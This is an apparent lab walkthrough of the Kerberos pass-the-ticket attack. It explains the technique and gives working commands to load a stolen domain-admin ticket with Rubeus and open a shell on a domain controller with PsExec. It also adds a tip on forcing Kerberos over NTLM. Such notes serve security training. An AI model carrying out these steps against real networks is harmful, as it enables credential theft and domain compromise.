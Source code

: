 ### Pass-the-Ticket - Works with Kerberos Only
#### What is Pass-the-Ticket?
A **pass-the-ticket** attack is a post-exploitation technique where an ***attacker reuses stolen Kerberos tickets*** (`TGS` or `TGT`) to ***authenticate as a legitimate user without needing their password***. 

For **TGS** tickets, the attacker directly accesses services; with a **TGT** ticket, the attacker request a new service ticket from the authentication server.

#### Obtaining the Tickets
A couple of ways to obtain tickets are:
- Stealing them from memory from a compromised host
- Forging them with a Golder/Silver Ticket attack

#### Performing the attack
Once the ticket has been obtained, use ***Rubeus*** to perform ***pass-the-ticket*** attack. For this lab, `ticket.kirbi` has been provided.
- `ticket.kirbi:` is a TGT for the domain administrator.

**Load the ticket into memory**
```powershell
rubeus.exe ptt /ticket:ticket.kirbi
```

**Verify the ticket has been loaded**
```powershell
klist
```

**Once the ticket is loaded into memory, use `PsExec64` to connect to the DC**
```powershell
psexec64 \\dc01.ktown.local cmd
```
***Note: To force the usage of Kerberos, you must use hostnames when connecting to a service. Using IP addresses will make the authentication mechanism fall back to `NTLM` and the attack will fail.***

